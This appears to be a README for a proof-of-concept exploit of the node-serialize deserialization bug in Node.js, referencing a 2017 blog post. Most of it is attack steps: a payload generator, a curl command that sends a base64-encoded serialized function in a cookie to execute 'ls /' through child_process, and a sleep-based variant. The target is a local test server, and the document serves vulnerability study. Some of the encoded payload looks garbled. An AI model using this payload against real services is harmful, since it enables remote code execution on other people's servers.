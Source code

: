 ## Test server

```
npm install
nodejs test-server.js
```

## Basic payload

```
# Generate the payload
nodejs payload-generator.js

# Add the () as explained in the blog post
# Base64 encode the payload

# Send the payload and check the server stdout
curl http://localhost:3000 -XGET -H'Cookie: profile=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCllyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2xzIC8nLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KTtcbiB9KCkifQ=='
```

## Advanced payload with sleep

```
nodejs payload-sleep-generator.js
```

Then use `ipython` to get the offsets, and save everything to `node-serialize.json`.

## References
I followed [this document](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
as reference for the previous steps.

